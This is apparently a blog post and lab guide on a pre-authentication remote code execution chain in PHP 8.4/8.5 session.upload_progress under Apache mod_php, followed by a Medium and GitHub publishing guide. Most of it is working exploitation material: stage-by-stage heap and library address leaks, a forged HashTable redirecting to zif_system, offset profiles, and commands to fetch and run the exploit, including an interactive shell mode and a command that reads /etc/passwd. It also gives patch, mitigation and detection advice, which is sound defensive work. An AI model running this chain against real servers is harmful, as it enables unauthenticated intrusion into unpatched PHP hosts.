

# PHP2Shell: CVE-2026-109618/109619 — Pre-Auth RCE in PHP's session.upload_progress

**Author:** Anmol K Sachan  
**Date:** 2026-10-22  
**GitHub Lab:** https://github.com/anmolksachan/php2shell  
**CVEs:** CVE-2026-109618 / CVE-2026-109619  
**Severity:** Critical — Pre-Authentication Remote Code Execution

> **Authorized testing only.** Everything in this post was tested against an isolated local Docker lab. Never run against systems you do not own or have explicit written permission to test.

---

## TL;DR

PHP's `session.upload_progress` feature — enabled by default — has a pre-RINIT use-after-free that allows an unauthenticated attacker to leak heap and library addresses, forge a HashTable in memory, and redirect execution to `zif_system` for arbitrary command execution. No login. No file upload. No prior access. Just HTTP requests.

**Affected:** PHP 8.4.x ≤ 8.4.26, PHP 8.5.x ≤ 8.5.11 running Apache `mod_php` prefork  
**Fixed:** PHP 8.4.27 and PHP 8.5.12 (released 2026-10-21)  
**Lab + scripts:** https://github.com/anmolksachan/php2shell

---

## Background: What is session.upload_progress?

PHP has a feature called `session.upload_progress` that tracks file upload progress by storing metadata in the session during a multipart POST request. It's controlled by a hidden form field `PHP_SESSION_UPLOAD_PROGRESS` and runs in the **pre-RINIT phase** — before the PHP script itself starts executing.

This is the crux of the vulnerability. By running before RINIT, this callback runs before:
- Any PHP error handlers
- Any `disable_functions` restrictions
- Any WAF or application-level security controls
- The target script itself

If something goes wrong in that pre-RINIT window, there is no safety net at the application layer.

Default `php.ini` in most distributions ships with:

```ini
session.upload_progress.enabled = On    ; default: On
session.upload_progress.cleanup = On
session.upload_progress.prefix = "upload_progress_"
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
```

---

## The Vulnerability: Pre-RINIT Use-After-Free

### What goes wrong

When a multipart POST arrives with `PHP_SESSION_UPLOAD_PROGRESS` set, PHP's session handler calls `php_session_track_init()`, which allocates the session state struct (`PS`) on the heap and populates it with session data — including `PS(id)`, a pointer to the session ID string.

If the request body is large enough to trigger an **out-of-memory (OOM) bailout** during multipart parsing, PHP's allocator aborts the RINIT phase. The OOM happens *after* `PS(id)` has been set but *before* it has been properly cleaned up. The result: `PS(id)` is left dangling — pointing to freed heap memory.

The next request to the same worker reuses that stale pointer. This is the Use-After-Free (UAF) primitive that the entire chain is built on.

### Why it only works on mod_php prefork with one worker

Session state is per-process. In Apache prefork, each worker is a separate process with its own heap. The UAF state is tied to whichever worker handled the first (OOM) request.

If a second request lands on a *different* worker, that worker has no stale pointer — the exploit fails. So the chain requires either:
- **One worker** (the lab configuration), or
- **Worker pinning** (`--pin-workers N`) which holds N-1 workers busy with idle keep-alive connections, forcing all requests to one process

### Why it only works on PHP 8.4/8.5

PHP 8.4 and 8.5 introduced changes to the Zend MM heap allocator that give the exploit a predictable heap layout. The UAF precondition exists in earlier versions (8.0–8.3) but the stage-3 control flow gadget does not transfer — the heap grooming pads don't align and stage 3 fails to achieve RCE.

---

## The 3-Stage Exploitation Chain

### Stage 1 — Leak the Heap Base (defeat heap ASLR)

**What we send:**

A multipart POST with ~841 fields and a large body that triggers OOM after `php_session_track_init()` sets `PS(id)`.

```
POST /index.php HTTP/1.1
Content-Type: multipart/form-data; boundary=X
PHP_SESSION_UPLOAD_PROGRESS: <value>

[841 multipart fields + large body to trigger OOM]
```

**What PHP does:**

1. Starts RINIT, calls `php_session_track_init()`
2. Allocates session state on the Zend MM heap, sets `PS(id)` → points into the heap chunk
3. OOM fires mid-parsing — PHP aborts RINIT, worker exits with `PS(id)` dangling
4. Next request hits the same worker, PHP processes the session again with the stale `PS(id)`
5. `display_errors=On` causes the OOM error to appear in the HTTP response body — and that error message contains **raw heap pointer values** embedded in the output

**What we get:**

```
[+] chunk base = 0xffff88800000
```

The Zend MM chunk base address — heap ASLR defeated.

---

### Stage 2 — Leak the libphp Base (defeat library ASLR)

**What we send:**

The same stale-state primitive, reshaped. A different OOM trigger forces a different code path to be hit — one that writes a pointer *into* `libphp.so` into the error output.

**What we get:**

```
[+] libphp base = 0xffff85200000
```

The `libphp.so` load address — library ASLR defeated. We now know where every function in `libphp.so` lives in memory.

---

### Stage 3 — Forge a HashTable, Hijack Execution, Get RCE

With both addresses known, we calculate absolute addresses for:

| Symbol | Purpose | Offset (8.5.11 aarch64) | Absolute Address |
|--------|---------|------------------------|-----------------|
| `zif_system` | PHP's `system()` — our RIP target | `0x5314f0` | `libphp_base + 0x5314f0` |
| `zval_ptr_dtor` | Destructor called on session cleanup | `0x761b80` | `libphp_base + 0x761b80` |
| `htdata` region | Where we place the forged HashTable | `0x690d8` | `chunk_base + 0x690d8` |

**The forged HashTable:**

PHP's `zval_ptr_dtor` follows a `HashTable`'s `destructor` function pointer when cleaning up a session zval. We construct a fake `HashTable` struct at the `htdata` offset in the heap chunk (which we own because we know the chunk base) and set its `destructor` field to `zif_system`.

**The fake zend_string:**

`zif_system` expects a `zend_string*` argument (the shell command). We place a fake `zend_string` struct immediately adjacent to the forged HashTable carrying the command — `id` fits in 14 bytes, unlimited on a local lab.

**Execution:**

When the session cleanup path calls `zval_ptr_dtor` on the stale session zval, it dereferences our forged HashTable and calls its `destructor` — which is now `zif_system`. Our fake `zend_string` is passed as the argument. The OS executes the command as `www-data`.

```
PROOF: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Pre-auth RCE confirmed.**

---

## Setting Up the Lab

All files for the lab are at: **https://github.com/anmolksachan/php2shell**

### Prerequisites

| Requirement | Version | Check |
|-------------|---------|-------|
| Python | 3.11+ | `python3 --version` |
| Docker | any recent | `docker --version` |
| Docker daemon | running | `docker info` |
| Git | any | `git --version` |
| OS | Linux or macOS | arm64 or amd64 |

### Step 1 — Get the lab scripts

```bash
git clone https://github.com/anmolksachan/php2shell.git
cd php2shell
```

The zip from the GitHub releases contains all helper scripts described below.

### Step 2 — Clone the upstream exploit toolkit

```bash
git clone https://github.com/devploit/php2shell.git devploit-php2shell
cd devploit-php2shell
```

### Step 3 — Bootstrap the 9bie upstream exploit

php2shell does not vendor the actual heap-grooming exploit (it has no license). A bootstrap script fetches and pins a specific commit:

```bash
python3 tools/bootstrap_upstream.py
```

Expected output:
```
cloning https://github.com/9bie/php2shell-bypass-aslr-exp.git
upstream ready: vendor/php2shell-upstream
runtime changes: docs/upstream-changes.md
```

### Step 4 — Start all lab containers

```bash
python3 tools/php2shell_labs.py up
```

This spins up 7 Docker containers, each pinned to a specific PHP build with the calibration config:
- Apache prefork, **1 worker**
- `memory_limit = 8M`
- `display_errors = On`
- `session.upload_progress.enabled = On`
- `session.use_strict_mode = 0`

| Port | PHP Build | Container | RCE Confirmed |
|------|-----------|-----------|---------------|
| :8100 | PHP 7.4.33 | p2s-lab-7433 | No |
| :8101 | PHP 8.0.30 | p2s-lab-8030 | No |
| :8102 | PHP 8.1.34 | p2s-lab-8134 | No |
| :8103 | PHP 8.2.34 | p2s-lab-8234 | No |
| :8104 | PHP 8.3.35 | p2s-lab-8335 | No |
| :8105 | PHP 8.4.26 | p2s-lab-8426 | **Yes** |
| :8106 | PHP 8.5.11 | p2s-lab-8511 | **Yes** |

All containers bind to `127.0.0.1` only. Nothing is exposed externally.

---

## Running the Exploit

### Basic run — PHP 8.5.11 (arm64, verified)

```bash
python3 tools/php2shell_auto.py \
  -u http://127.0.0.1:8106/index.php \
  --container p2s-lab-8511 \
  --repo-dir vendor/php2shell-upstream
```

### Full output

```
██████╗ ██╗  ██╗██████╗ ██████╗ ███████╗██╗  ██╗███████╗██╗     ██╗
...

  exploit by devploit  ·  CVE-2026-109618 / CVE-2026-109619
  automatic target detection, build profile dispatch and command execution
  authorized testing only

[*] CHAIN 01/01  automatic target detection / fixed command proof
00:00.00  DISCOVER   http://127.0.0.1:8106/index.php
00:00.08  INFO       detected architecture: aarch64
00:00.09  OK         PHP 8.5.11  ·  Apache/2.4.69 (Debian)
00:00.09  PREFLIGHT  php-8.5.11-bookworm-aarch64
00:00.09  INFO       local container: p2s-lab-8511
00:00.09  INFO       offsets: zif=0x5314f0 dtor=0x761b80 htdata=0x690d8
00:00.09  INFO       command: id>/out/p1
00:00.12  INFO       command staged in lab/rce/out/8.5.11/c
00:00.15  PROBE      memory_limit probe: 16 MiB body
00:00.16  OK         detected memory_limit=8M
00:00.32  EXECUTE    memory_limit=8M  ·  huge_mb=12
   │ [*] no offsets file; reading libphp symbols from container p2s-lab-8511
   │ zif_system     0x5314f0
   │ zval_ptr_dtor  0x761b80
   │ wrote vendor/php2shell-upstream/out/offsets.env
   │ [*] target http://127.0.0.1:8106/index.php (cmd='sh</out/c')
   │ [*] offsets loaded from out/offsets.env
   │ [*] offsets: zif=0x5314f0 dtor=0x761b80 htdata=0x690d8
   │ [*] rotating worker over HTTP
   │ [*] stage 1: heap leak (attempt 1/3)
   │ [+] chunk base = 0xffff88800000
   │ [*] rotating worker over HTTP
   │ [*] stage 2: libphp leak (attempt 1/3)
   │ [+] libphp base = 0xffff85200000
   │ [*] rotating worker over HTTP
   │ [*] stage 3: HTDATA=0xffff888690d8 ZIF=0xffff857314f0
   │ [+] W3 attempt 1
   │ PROOF: uid=33(www-data) gid=33(www-data) groups=33(www-data)

╭─ RESULT ─────────────────────────────────────────────────────────╮
│ PRE-AUTH RCE CONFIRMED                                           │
│ uid=33(www-data) gid=33(www-data) groups=33(www-data)            │
╰──────────────────────────────────────────────────────────────────╯
```

### Custom command (unlimited length on local lab)

```bash
python3 tools/php2shell_auto.py \
  -u http://127.0.0.1:8106/index.php \
  --container p2s-lab-8511 \
  --repo-dir vendor/php2shell-upstream \
  -c 'id; uname -a; whoami; cat /etc/passwd'
```

### Interactive REPL (one full chain per command)

```bash
python3 tools/php2shell_auto.py \
  -u http://127.0.0.1:8106/index.php \
  --container p2s-lab-8511 \
  --repo-dir vendor/php2shell-upstream \
  --interactive
```

### Test all 7 containers at once

```bash
python3 tools/php2shell_labs.py test
```

### Using the helper scripts from the GitHub release

The lab zip at https://github.com/anmolksachan/php2shell includes ready-made wrappers:

```bash
./setup.sh                                             # clone, bootstrap, start all labs
./run_exploit.sh                                       # exploit PHP 8.5.11 with 'id'
./run_exploit.sh http://127.0.0.1:8106/index.php p2s-lab-8511 "uname -a"
./run_interactive.sh                                   # interactive REPL
./test_all_labs.sh                                     # test all 7 containers
./cleanup.sh                                           # stop all containers
```

### Tear down

```bash
python3 tools/php2shell_labs.py down
# or
./cleanup.sh
```

---

## Code Walkthrough

### `tools/bootstrap_upstream.py` — Fetches the upstream exploit

Clones [9bie's php2shell-bypass-aslr-exp](https://github.com/9bie/php2shell-bypass-aslr-exp) into `vendor/php2shell-upstream` and checks out the pinned commit `4586f5c` for reproducibility. The upstream has no license so it is never committed to the repo — always fetched fresh.

```python
UPSTREAM_URL = "https://github.com/9bie/php2shell-bypass-aslr-exp.git"
PINNED_COMMIT = "4586f5c"
```

### `tools/php2shell_labs.py` — Docker lab manager

Builds and manages one container per PHP build. Each container uses a hardcoded `php.ini` that enforces the calibration config. The `/out` directory is bind-mounted from the host so proof output (the result of `id`) is readable on disk after execution.

Key calibration values:

```ini
memory_limit = 8M
display_errors = On
session.upload_progress.enabled = On
session.use_strict_mode = 0
MaxRequestWorkers 1          ; Apache — one worker only
```

### `tools/php2shell_auto.py` — The version-aware dispatcher

The main entry point. Walk-through of what it does:

1. **Fingerprint** — sends a HEAD/GET to the target, reads `X-Powered-By` or `PHP-Version` header to identify the exact PHP build
2. **Profile lookup** — finds `profiles/php-<version>-<distro>-<arch>.json`; aborts if the build is a patched release (8.4.27+, 8.5.12+) or has no profile
3. **Memory-limit probe** — sends a 16 MiB body; the OOM error message reveals `memory_limit=8M`, so the chain runs once instead of sweeping values
4. **Worker pinning** — for multi-worker targets, holds N-1 workers busy with idle keep-alive connections
5. **Upstream call** — passes offsets to 9bie's exploit via `tools/php2shell_upstream.py` (which applies the SNI and heap-parameter patches at runtime)
6. **Proof read** — for local labs reads `/out/p1` off the bind mount; for remote targets fetches `/p1` from the webroot

### `profiles/php-8.5.11-bookworm-aarch64.json` — Per-build offset profile

Every PHP build has a unique `libphp.so`. Offsets extracted from one build are useless for another. The calibration factory (`php2shell_calibrate.py`) runs the full 3-stage chain and only writes `"rce": true` once a real shell proof is captured.

```json
{
  "libphp": {
    "zif_system": "0x5314f0",
    "zval_ptr_dtor": "0x761b80",
    "htdata": "0x690d8"
  },
  "stages": {
    "stage1_n": 841,
    "stage1_forge_len": 79,
    "stage2_t": 406,
    "stage2_v": 16,
    "stage3_pads": [[31, 31]],
    "stage3_carrier": true
  },
  "oom_mb": 12,
  "rce": true
}
```

| Field | Meaning |
|-------|---------|
| `zif_system` | Offset of `zif_system` in `libphp.so` — the code we redirect execution to |
| `zval_ptr_dtor` | Offset of `zval_ptr_dtor` — used to validate the destructor gadget |
| `htdata` | Offset into the Zend MM chunk where the forged HashTable is placed |
| `stage1_n` | Number of multipart fields needed to trigger OOM after session init |
| `stage1_forge_len` | Size of the forged data in stage 1 |
| `stage2_t` / `stage2_v` | Timing/value parameters for the stage 2 leak primitive |
| `stage3_pads` | Heap grooming pad counts to align the forged struct to the right offset |
| `stage3_carrier` | Whether the stage-3 fake `zend_string` carrier is supported |
| `oom_mb` | Body size (MB) that triggers OOM at `memory_limit=8M` |

### `tools/php2shell_calibrate.py` — Profile generator

Run this against any new PHP build to generate a new profile. Discovers stages 1 and 2 automatically, then tries stage 3. Only writes `"rce": true` after a live `id` proof is collected from the container's `/out` mount.

```bash
python3 tools/php2shell_calibrate.py \
  --target http://127.0.0.1:8105/index.php \
  --container p2s-lab-8426 \
  --repo-dir vendor/php2shell-upstream \
  --proof-file lab/rce/out/8.4.26/p1 \
  --distro bookworm
```

---

## Detection, Defense & Patch

### 1. Patch (only complete fix)

```bash
php -v   # check your current version
```

Upgrade to:
- **PHP 8.4.27** or higher
- **PHP 8.5.12** or higher

Packages are available in standard distribution repos and via `apt`/`yum`/`brew` depending on your platform.

### 2. Disable session.upload_progress (best immediate mitigation)

```ini
; /etc/php/php.ini or /etc/php/conf.d/session.ini
session.upload_progress.enabled = Off
```

This removes the pre-RINIT callback entirely. The entire chain depends on it. This is safe for virtually all applications — very few modern apps use PHP-native upload progress (they use JavaScript-based progress via `XMLHttpRequest`).

Restart Apache after changing:
```bash
systemctl restart apache2
```

### 3. Additional hardening (not a fix, raises the bar)

```ini
display_errors = Off          ; blocks the stage-1 leak as shipped
memory_limit = 256M           ; makes the OOM probe slower, not impossible
expose_php = Off              ; hides version from X-Powered-By
```

Making your webroot read-only prevents the exploit from writing a proof file, but does not prevent blind command execution.

### 4. Detection: what to look for in logs

**Apache access log:**
```
# Stage 1 — large multipart body, many fields
POST /index.php HTTP/1.1 500 - [body > 10MB, ~841 fields in Content-Type boundary]

# Stage 2 — similar pattern, slightly different body size
POST /index.php HTTP/1.1 500 -

# Stage 3 — exploitation attempt, Apache child may crash
POST /index.php HTTP/1.1 500 -
```

**Apache error log — key signatures:**
```
[error] PHP Fatal error: Allowed memory size of 8388608 bytes exhausted
[notice] child pid 12345 exit signal Segmentation fault (11)
zend_mm_heap corrupted
```

**SIEM / WAF rules to add:**
- Rate-limit multipart POSTs with `Content-Length > 5MB` to the same endpoint
- Alert on `> 500 multipart fields` in a single request
- Alert on repeated 500 responses from the same source IP within 5 seconds
- Alert on `zend_mm_heap corrupted` in PHP error logs

### 5. PHP-FPM users: you are not affected

This chain is `mod_php` prefork only. PHP-FPM processes requests in a completely different lifecycle — the pre-RINIT primitive does not transfer. If you're running Nginx + PHP-FPM or Apache + PHP-FPM, this specific exploit does not apply.

---

## RCE Status Across Builds

| PHP Build | Architecture | Heap Leak | libphp Leak | RCE | Notes |
|-----------|-------------|-----------|-------------|-----|-------|
| 8.5.11 | aarch64 | Yes | Yes | **Yes** | Verified: `uid=33(www-data)` |
| 8.5.11 | amd64 | Yes | Yes | **Yes** | Separate offsets, same htdata |
| 8.5.10 | aarch64 | Yes | Yes | **Yes** | Verified |
| 8.4.26 | amd64 | Yes | Yes | **Yes** | Reference build |
| 8.4.25 | aarch64 | Yes | Yes | **Yes** | Probabilistic stage 3, needs retries |
| 8.5.0 | aarch64 | Yes | Yes | No | Stage-3 layout not found |
| 8.3.35 | aarch64 | Yes | Yes | No | Stage-3 reference alive |
| 8.3.33 (WordPress) | mod_php | Yes | Yes | No | Stage-3 reference alive |
| 8.3.0 | aarch64 | No | No | No | PS(id) dangling, cookie not reclaimed |
| 8.2.34 | aarch64 | No | No | No | UAF present, leak shape differs |
| 8.1.34 | aarch64 | No | No | No | UAF present, leak shape differs |
| 8.0.30 | aarch64 | No | No | No | UAF present, leak shape differs |
| 7.4.33 | aarch64 | No | No | No | UAF present, leak shape differs |

**5 builds with verified RCE. 13 heap profiles total.**

---

## References & Credits

- **This lab:** https://github.com/anmolksachan/php2shell
- **php2shell toolkit:** https://github.com/devploit/php2shell (devploit)
- **Upstream exploit:** https://github.com/9bie/php2shell-bypass-aslr-exp (9bie)
- **Wiz Research discovery blog:** https://www.wiz.io/blog/php2shell-php-rce
- **Calif research:** https://calif.io/php2shell
- **PHP security advisories:** https://www.php.net/security/
- **PHP Foundation patch note:** https://thephp.foundation/blog/2026/10/21/todays-php-security-release-and-how-were-strengthening-php-security/

**CVEs:** CVE-2026-109618 / CVE-2026-109619  
**Discovery:** Wiz Research  
**Upstream exploit:** 9bie  
**Dispatcher + profiles + labs:** devploit  
**This lab writeup:** Anmol K Sachan

---

---

# Publishing Guide

## What to Post on Medium

### Article structure

Use this as your Medium draft. Medium renders markdown if you paste it — or use the Medium import tool:

1. **Title:**
   ```
   PHP2Shell: CVE-2026-109618 Pre-Auth RCE — I Tested It Locally and Here's How It Works
   ```

2. **Subtitle / subheading (Medium supports these):**
   ```
   A complete walkthrough of the 3-stage heap exploitation chain that gives unauthenticated RCE on PHP 8.4/8.5 with mod_php
   ```

3. **Cover image:** Take a screenshot of your terminal showing the `PRE-AUTH RCE CONFIRMED` box — this is your hero image. Add it as the first image in the post.

4. **Sections to keep from this blog:** All of them. Medium readers appreciate depth. The technical sections (Stage 1/2/3 breakdown, the profile JSON, the detection table) will make this stand out.

5. **Call-to-action at the bottom (add this to your Medium post):**
   ```
   All lab scripts and the helper zip are on my GitHub:
   https://github.com/anmolksachan/php2shell
   
   Star the repo if this was useful. Follow for more CVE walkthroughs.
   ```

6. **Tags to use on Medium:**
   - `Cybersecurity`
   - `PHP`
   - `CVE`
   - `Penetration Testing`
   - `Exploit Development`

7. **What NOT to post:** Do not post screenshots of attacking real/external systems. All screenshots should be from your local Docker lab (`127.0.0.1`).

---

## What to Add to Your GitHub Repo (anmolksachan/php2shell)

### Recommended repo structure

```
anmolksachan/php2shell/
├── README.md                  ← main page (see template below)
├── php2shell-lab.zip          ← the zip you already have
├── blog.md                    ← the full blog post (this file)
├── scripts/
│   ├── setup.sh
│   ├── run_exploit.sh
│   ├── run_interactive.sh
│   ├── test_all_labs.sh
│   └── cleanup.sh
└── screenshots/
    ├── rce-confirmed.png      ← terminal showing PRE-AUTH RCE CONFIRMED
    ├── stage1-heap-leak.png   ← terminal showing chunk base leak
    └── stage2-libphp-leak.png ← terminal showing libphp base leak
```

### README.md for the GitHub repo

Use this as your `README.md`:

```markdown
# PHP2Shell Lab — CVE-2026-109618 / CVE-2026-109619

> Pre-auth RCE research lab for PHP's session.upload_progress heap chain.  
> Authorized testing only. All testing done against local Docker containers.



## CVE Summary

| Field | Value |
|-------|-------|
| CVEs | CVE-2026-109618, CVE-2026-109619 |
| Affected | PHP 8.4.x ≤ 8.4.26, PHP 8.5.x ≤ 8.5.11 + Apache mod_php |
| Fixed | PHP 8.4.27, PHP 8.5.12 (2026-10-21) |
| Auth | None required |
| Vector | Network |
| Impact | Remote Code Execution as www-data |

## Full Writeup

Read the full blog post: [blog.md](./blog.md)  
Medium: [link to your Medium post once published]

## Quick Start

\`\`\`bash
git clone https://github.com/anmolksachan/php2shell
cd php2shell/scripts
chmod +x *.sh
./setup.sh       # installs everything, starts Docker labs
./run_exploit.sh # exploits PHP 8.5.11
\`\`\`

## Lab Containers

| Port | PHP | RCE |
|------|-----|-----|
| :8105 | 8.4.26 | Yes |
| :8106 | 8.5.11 | Yes |
| :8100–:8104 | 7.4–8.3 | No |

## Credits

- Original toolkit: [devploit/php2shell](https://github.com/devploit/php2shell)
- Upstream exploit: [9bie](https://github.com/9bie/php2shell-bypass-aslr-exp)
- CVE discovery: Wiz Research
- This lab: [@anmolksachan](https://github.com/anmolksachan)

## Disclaimer

For authorized security research only. Never use against systems you don't own.
```

### GitHub Release

Create a GitHub Release tagged `v1.0`:
- **Tag:** `v1.0`
- **Title:** `PHP2Shell Lab v1.0 — CVE-2026-109618/109619`
- **Description:** paste the CVE summary table
- **Attach:** `php2shell-lab.zip`

### Topics to add to the repo (GitHub repo settings → Topics)

```
php rce cve exploit penetration-testing security-research mod-php docker lab
```

These make your repo discoverable in GitHub search.
```
